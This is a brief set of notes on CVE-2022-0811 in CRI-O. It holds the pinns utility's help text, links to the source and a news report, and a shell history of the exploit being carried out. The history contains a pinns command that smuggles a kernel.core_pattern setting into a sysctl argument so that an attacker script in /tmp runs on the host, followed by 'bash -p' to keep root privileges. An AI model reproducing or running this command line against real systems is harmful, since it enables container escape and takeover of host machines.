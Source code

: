 
https://github.com/saschagrunert/pinns.rs
<br>
https://thehackernews.com/2022/03/new-vulnerability-in-cri-o-engine-lets.html

#
#
#

    pinns v0.1.0-9-g0fccc8b
    A simple utility to pin Linux namespaces

    USAGE:
        pinns [FLAGS] [OPTIONS]

    FLAGS:
        -c, --cgroup     Pin the cgroup namespace
        -h, --help       Prints help information
        -i, --ipc        Pin the IPC namespace
        -n, --net        Pin the network namespace
        -p, --pid        Pin the PID namespace
        -u, --uts        Pin the UTS namespace
        -V, --version    Prints version information

    OPTIONS:
        -d, --dir <DIRECTORY>      The directory for the pinned namespaces
                                   [default: /tmp]
        -l, --log-level <LEVEL>    The logging level of the application [default: info]
                                   [possible values: trace, debug, info, warn, error,
                                   off]

##
##
##

More info at: https://github.com/saschagrunert/pinns.rs

#####################
#####################

    4  pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/THING/YOYO.sh #' --ipc --net --uts --cgroup
    5  man pinns ;; wall lolololol
    6  cd /usr/bin
    7  ls -la 
    8  ls -la | grep bash
    9  bash -p
   10  history
   11  ls
   12  cd /tmp/THING/
   
   
############ cve-2022-0811 ############
